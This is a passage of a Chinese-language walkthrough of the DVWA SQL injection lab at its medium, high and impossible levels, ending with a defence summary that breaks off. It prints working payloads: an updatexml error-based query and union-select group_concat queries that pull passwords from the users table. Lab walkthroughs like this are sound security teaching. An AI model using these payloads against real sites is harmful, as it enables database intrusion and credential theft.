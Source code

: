 可以发现多了该行代码，作用是对SQL语句中的单引号和双引号进行转义，转义后就变为了普通的字符，不具备本来的功能了

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

还可以发现`id`变为了数字型

**解决办法：** 使用十六进制，将所有引号删除，并将其中的句子转为十六进制

**发起攻击** 

```sql
-- 原语句
id=' and updatexml(1,concat('',(select password from dvwa.users limit 0,1),''),1) -- &Submit=Submit

-- 修改后
id=2 and updatexml(1,concat((select password from dvwa.users limit 0,1)),1)&Submit=Submit
```

**攻击成功**

![image-20221201150937667](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441635.png)

### high

**源码分析**

1. 前端校验，弹出了一个新的框，使得机器测试无效，但是依旧可以手工注入
2. 后端校验
   1. 依旧对输入的id不做任何校验
   2. 关闭了报错提示，因此无法使用报错注入，但是可以使用**联合查询注入** 

![image-20221201151452351](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441968.png)



> group_concat() 函数把查询结果合并成一个字符串返回
>
> 1 or 1 = 1 union select group_concat(user_id),group_concat(password) from users #
>
> `1' union select group_concat(user),group_concat(password) from users #`

![image-20221201153754044](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441213.png)

### impossible

查询被改为参数化查询（而不是动态的），这意味着查询已由开发人员确切定义，并区分哪些部分是代码，哪些部分是数据。

Impossible 级别的代码采用了 PDO 技术，防止代码和查询数据的混杂。同时当返回的查询结果数量为一时才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken 机制的加入了进一步提高了安全性。



### 总结与防御

**SQL 注入攻击**就是 Web 程序对用户的输入没有进行合法性判断，从而攻击者可以从前端向后端传入攻击参数，并且该参数被带入了后端执行。在很多情况下开发者会使用**动态的 SQL 语句**，这种语句是在程序执行过程中构造的，不过动态的 SQL 语句很容易被攻击者传入的参数改变其原本的功能。
当我们进行**手工 SQL 注入**时，往往是采取以下几个步骤：
